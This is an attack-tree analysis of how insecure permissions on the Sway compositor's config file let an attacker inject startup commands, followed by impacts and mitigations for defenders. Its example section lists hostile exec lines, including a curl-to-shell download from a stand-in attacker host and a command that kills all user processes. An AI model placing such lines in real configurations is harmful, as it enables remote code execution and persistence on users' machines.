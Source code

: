 ## Deep Analysis: Exploit Insecure File Permissions on Sway Config File

This analysis delves into the attack tree path "Exploit insecure file permissions on Sway config file," providing a comprehensive understanding of the attack, its implications, and potential mitigation strategies. We will examine each component of the path in detail, considering the perspective of both the attacker and the defender.

**Attack Tree Path Breakdown:**

**1. Exploit insecure file permissions on Sway config file:**

* **Core Vulnerability:** The fundamental weakness lies in the overly permissive file permissions of the Sway configuration file, typically located at `~/.config/sway/config`. This allows unauthorized users or processes to modify its contents.

* **Significance:** The Sway configuration file dictates how the compositor behaves, including keybindings, startup commands, and application settings. Gaining write access to this file grants significant control over the user's Sway session.

**2. Attack Vector: An attacker gains write access to the Sway configuration file (typically `~/.config/sway/config`) due to overly permissive file permissions.**

* **Elaboration:** This highlights the primary entry point for the attack. The attacker doesn't necessarily need to exploit a vulnerability within Sway itself but rather leverages a common misconfiguration: incorrect file permissions.
* **Importance:** Identifying the attack vector is crucial for implementing preventative measures. Focusing solely on Sway vulnerabilities would miss this fundamental security flaw.

**3. Mechanism: This could be achieved through:**

    * **Exploiting vulnerabilities in other software running with the same user privileges:**
        * **Deep Dive:** If another application running under the same user account has a vulnerability (e.g., a buffer overflow, command injection), an attacker could leverage that vulnerability to gain arbitrary code execution. This execution could then be used to modify the Sway configuration file.
        * **Example:** A vulnerable web browser plugin could be exploited to download and execute a script that changes the permissions or content of the Sway config file.
        * **Relevance:** This emphasizes the importance of a holistic security approach. Even if Sway is secure, vulnerabilities in other user-level applications can be exploited to compromise it.

    * **Social engineering to trick the user into changing file permissions:**
        * **Deep Dive:**  Attackers might employ social engineering tactics to convince the user to intentionally weaken the permissions of their Sway configuration file. This could involve phishing emails, fake support requests, or misleading instructions on malicious websites.
        * **Example:** An attacker might send an email claiming to be from Sway support, instructing the user to change the permissions of their config file to "fix a bug."
        * **Relevance:**  User awareness and education are crucial defense layers. Technical security measures alone cannot prevent attacks that rely on user manipulation.

    * **Direct access to the system (if physical access or remote access is compromised):**
        * **Deep Dive:** If the attacker has physical access to the machine or has compromised remote access credentials (e.g., through SSH brute-forcing or stolen credentials), they can directly modify the file permissions using command-line tools like `chmod`.
        * **Example:** An attacker with physical access could boot from a live USB and modify the file system. Alternatively, a compromised SSH key allows direct login and file manipulation.
        * **Relevance:**  This highlights the importance of physical security and robust access control mechanisms.

**4. Consequence: Once the attacker can modify the configuration file, they can inject arbitrary commands that will be executed the next time Sway is started or reloaded. This often involves using the `exec` command within the Sway configuration to run malicious scripts or binaries.**

* **Deep Dive:** The `exec` command in the Sway configuration allows users to specify commands to be executed when Sway starts or is reloaded. This powerful feature becomes a significant vulnerability when the configuration file is compromised.
* **Mechanism of Attack:** The attacker will insert lines into the `config` file using the `exec` command, pointing to malicious scripts or binaries. These scripts can perform a wide range of actions.
* **Timing:** The malicious code execution is delayed until the next Sway restart or reload, making the attack potentially stealthier. The user might not immediately notice the compromise.
* **Example Injected Commands:**
    * `exec systemd-run --user --on-active=1m /tmp/malicious_script.sh` (Runs a script after 1 minute)
    * `exec /usr/bin/curl -s https://attacker.com/payload.sh | sh` (Downloads and executes a remote script)
    * `exec swaylock -f` (Locks the screen, potentially as a denial-of-service)
    * `exec pkill -u $USER` (Kills all processes owned by the user, causing a logout)
* **Relevance:** Understanding the `exec` command's role is critical for developers to consider potential security implications of configuration file modifications.

**5. Impact: Full compromise of the user's session and potentially the entire system, allowing the attacker to control the application and access sensitive data.**

* **Deep Dive:** The impact of this attack can be severe. By executing arbitrary commands, the attacker gains significant control over the user's environment.
* **Specific Impacts:**
    * **Data Exfiltration:** The malicious script can be designed to steal sensitive data from the user's home directory, browser history, or other locations.
    * **Keylogging:**  The attacker can install a keylogger to capture keystrokes, including passwords and sensitive information.
    * **Remote Access:**  A reverse shell can be established, allowing the attacker to remotely control the compromised system.
    * **Malware Installation:**  The attacker can download and install more persistent malware, such as rootkits.
    * **Denial of Service:**  The attacker can disrupt the user's workflow by killing processes, locking the screen, or causing system instability.
    * **Privilege Escalation (Potential):** While the initial compromise is within the user's session, if the injected script exploits other vulnerabilities or misconfigurations, it could potentially lead to privilege escalation and compromise of the entire system.
* **Relevance:** This highlights the critical need to prevent this type of attack. The potential damage is significant and can have long-lasting consequences for the user.

**Mitigation Strategies (From a Development and Security Perspective):**

* **Secure Defaults:**
    * **Action:** Ensure the default permissions for the Sway configuration file are set to be readable and writable only by the user (e.g., `0600` or `rw-------`).
    * **Rationale:** This is the most fundamental preventative measure.
* **User Education:**
    * **Action:** Educate users about the importance of file permissions and the risks of granting excessive access. Provide clear instructions on how to check and correct file permissions.
    * **Rationale:**  Social engineering attacks can be mitigated by informed users.
* **System Hardening Guidance:**
    * **Action:** Provide documentation and best practices for hardening the operating system to reduce the likelihood of vulnerabilities in other software being exploited.
    * **Rationale:** A layered security approach is crucial.
* **Input Validation (Limited Applicability):**
    * **Consideration:** While the primary vulnerability is file permissions, consider if Sway could implement any safeguards against overly long or obviously malicious commands within the configuration file parsing. However, this is a secondary defense and should not be the primary focus.
    * **Rationale:**  Adds a layer of defense in depth, although it might be complex to implement effectively without restricting legitimate use cases.
* **Monitoring and Intrusion Detection:**
    * **Action:** Implement system monitoring tools that can detect changes to critical configuration files like the Sway config. Alert users or administrators about unauthorized modifications.
    * **Rationale:** Allows for faster detection and response to potential attacks.
* **Regular Security Audits:**
    * **Action:** Conduct regular security audits of the Sway codebase and related configurations to identify potential vulnerabilities and misconfigurations.
    * **Rationale:** Proactive identification and remediation of security weaknesses.
* **Principle of Least Privilege:**
    * **Action:**  Encourage users to run other applications with the minimum necessary privileges to limit the impact of a potential compromise.
    * **Rationale:** Reduces the blast radius of an attack.

**Conclusion:**

The "Exploit insecure file permissions on Sway config file" attack path, while seemingly simple, can lead to severe consequences. It highlights the importance of basic security principles like secure file permissions and the need for a holistic security approach that considers vulnerabilities beyond the core application itself. By understanding the attack vector, mechanism, and potential impact, development teams can implement effective mitigation strategies and educate users to prevent such attacks. Focusing on secure defaults, user education, and robust system hardening are crucial steps in defending against this type of threat.
